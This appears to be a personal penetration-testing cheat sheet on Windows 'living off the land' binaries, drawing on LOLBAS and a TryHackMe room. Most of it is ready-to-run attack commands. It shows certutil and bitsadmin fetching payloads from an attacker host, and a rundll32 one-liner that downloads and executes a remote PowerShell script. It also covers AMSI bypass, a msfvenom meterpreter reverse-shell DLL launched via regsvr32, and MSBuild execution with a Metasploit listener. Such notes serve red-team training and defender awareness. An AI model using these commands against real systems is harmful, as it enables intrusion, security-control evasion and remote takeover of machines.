# Windows Living Off The Land

## Sysinternals

Due to the inherent trust Sysinternals has within the Operating system its use does get monitored by Blue Teams. See the [[Sysinternals]] for connecting links to all the tools eventually.

## LOLBAS
*"The goal of the [LOLBAS](https://lolbas-project.github.io/)  project is to document every binary, script, and library that can be used for Living Off The Land techniques. The phrase "Living off the land" was coined by Christopher Campbell (@obscuresec) & Matt Graeber (@mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).* The Site [LOLBAS](https://lolbas-project.github.io/) has search functionality for ease of use.

#### Criteria

A LOLBin/Lib/Script must:

-   Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft.
-   Have extra "unexpected" functionality. It is not interesting to document intended use cases.
    -   Exceptions are application whitelisting bypasses
-   Have functionality that would be useful to an APT or red team

Interesting functionality can include:

-   Executing code
    -   Arbitrary code execution
    -   Pass-through execution of other programs (unsigned) or scripts (via a LOLBin)
-   Compiling code
-   File operations
    -   Downloading
    -   Upload
    -   Copy
-   Persistence
    -   Pass-through persistence utilizing existing LOLBin
    -   Persistence (e.g. hide data in ADS, execute at logon)
-   UAC bypass
-   Credential theft
-   Dumping process memory
-   Surveillance (e.g. [[Keyloggers]], network trace)
-   Log evasion/modification
-   DLL side-loading/hijacking without being relocated elsewhere in the file system.

## File Operation

Certutil can download files and encode files. Certutil is a Windows built-in utility for handling certification service.
```powershell
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
certutil -decode Encoded_file payload.txt
```

Bitsadmin [BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer)  - This differs from [lolbas](https://lolbas-project.github.io/#) and has not been changed so I assume that that version all works - it complains about too many arguments on some systems 
```powershell
bitsadmin.exe /transfer <jobname> /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\<user>\Desktop\payload.exe

bitsadmin.exe /transfer NewUpdate /Download /priority High http://Attacker_IP/payload.exe c:\Users\<user>\Desktop\payload.exe
# LOLBAS version - for references and just incase legacy Windows
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

Use `findstr` insteading finding text and string patterns in files, find and download remote file from SMB shared folder 
```powershell
findstr /V dummystring \\MachineName\ShareFolder\test.exe > C:\Windows\Temp\test.exe
```


## File Execution

Windows has multiple system binaries that can execute others, MITRE [ATT&CK](https://attack.mitre.org/) called  framework, considers this technique as to be term as either Signed Binary Proxy Execution or Indirect Command Execution.

`explorer.exe` is the file manager and system component for Windows and can perform Indirect Command Execution.
```powershell
# Located
# C:\Windows\explorer.exe - Windows 32 bits version
# C:\Windows\SysWOW64\explorer.exe - Windows 64 bits version
explorer.exe /root,"C:\Windows\System32\cmd.exe"
```

Windows Management Instrumentation (`wmic.exe`) see [[WMI-Commands]] for more), perform [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution  
```powershell
wmic.exe process call create cmd
```

Rundll32 is a Microsoft built-in tool that loads and can run local [[Dynamic-Link-Libraries]], thus run arbitrary payloads and execute JavaScript and PowerShell scripts. This is [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution.
```powershell
# Embedded eval() function
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"cmd\");window.close()");
```

```powershell
# run javascript: executing embedded powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

[[AMSI-Bypassing]] using your own Powershell DLL: [p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll) & [iomoath/PowerShx](https://github.com/iomoath/PowerShx) - with rundll32
```powershell 
rundll32 PowerShx.dll,main <script>
rundll32 PowerShx.dll,main -h # Display this message
rundll32 PowerShx.dll,main -f <path> # Run the script passed as argument
rundll32 PowerShx.dll,main -w # Start an interactive console in a new window (Default)
rundll32 PowerShdll,main -i # Start an interactive console in this console

rundll32 PowerShx.dll,main -e <PS script to run>
rundll32 PowerShx.dll,main -f <path> # Run the script passed as argument
rundll32 PowerShx.dll,main -f <path> -c <PS Cmdlet> # Load a script and run a PS cmdlet
rundll32 PowerShx.dll,main -w # Start an interactive console in a new window
rundll32 PowerShx.dll,main -i # Start an interactive console
rundll32 PowerShx.dll,main -s # Attempt to bypass AMSI
rundll32 PowerShx.dll,main -v # Print Execution Output to the console
```
[InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/windows-download-execute/#rundll32)
## Bypassing Application Whitelisting 
Application Whitelisting is a rule-based (approved X.exe only) Microsoft endpoint security feature that prevents malicious and unauthorised programs from executing in real-time. Therefore [LOLBAS](https://lolbas-project.github.io/) are used to bypasses the whitelisting by being whitelisted.

[Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/) is used by Windows to register [[Dynamic-Link-Libraries]] (DLLs) it can be used to execute arbitrary binaries and bypass Whitelisting. According to [https://redcanary.com/](https://redcanary.com/) this the third most popular [ATT&CK Technique](https://attack.mitre.org/techniques/T1218/010/) used to execute native code or scripts locally or remotely **in memory**.
```powershell
# C:\Windows\System32\regsvr32.exe
# C:\Windows\SysWOW64\regsvr32.exe

# DLL reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
# Host and File transfer/Infiltrate it
c:\Windows\System32\regsvr32.exe c:\Users\<user>\Downloads\live0fftheland.dll
# OR
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
# /s - silent mode
# /n - do not call DLL register server
# /u - use another server instead as /n used
# /u - run with unregistered method
```


In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019: Windows Subsystem for Linux ([WSL](https://docs.microsoft.com/en-us/windows/wsl/about)), and it exists in [two WSL versions](https://docs.microsoft.com/en-us/windows/wsl/compare-versions): WSL1 and WSL2. 
```powershell
bash.exe -c cmd.exe # "/path/to/payload!"
```

## No Powershell

[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) *"Run PowerShell command without invoking powershell.exe"* It relies on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. You can also execute raw shellcode using the same approach.

```bash
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=$IP LPORT=4443 -f psh-reflection > liv0ff.ps1
# Listener
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost $IP;set lport 4443;exploit"
# Python2.. to convert the payload to be compatible 
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

On target build the `.csproj` file and wait for the reverse shell!
```powershell
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\<user>\Desktop\liv0ff.csproj
```

## cmdl32 

File transfer: Download a file from the web address specified in the configuration file. The downloaded file will be in %TMP% under the name VPNXXXX.tmp where "X" denotes a random number or letter.  

```powershell
cmdl32 /vpn /lan %cd%\config
```


## MSBuild

Incoming at some point - read the LOLBins
[WWHF | A Master Class on Offensive MSBuild | Chris Truncer & Joe Leon | 1 Hour](https://www.youtube.com/watch?v=an8vf1shfmk&t=1653s)

https://lolbas-project.github.io/lolbas/Binaries/Msbuild/

## References
[LOLBAS](https://lolbas-project.github.io/)
[THM Room Living off the land](https://tryhackme.com/room/livingofftheland)
[BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer)
[WSL](https://docs.microsoft.com/en-us/windows/wsl/about)
[https://redcanary.com/](https://redcanary.com/) 
[ATT&CK](https://attack.mitre.org)
[p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll) 
[iomoath/PowerShx](https://github.com/iomoath/PowerShx) 
[InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/windows-download-execute/#rundll32)
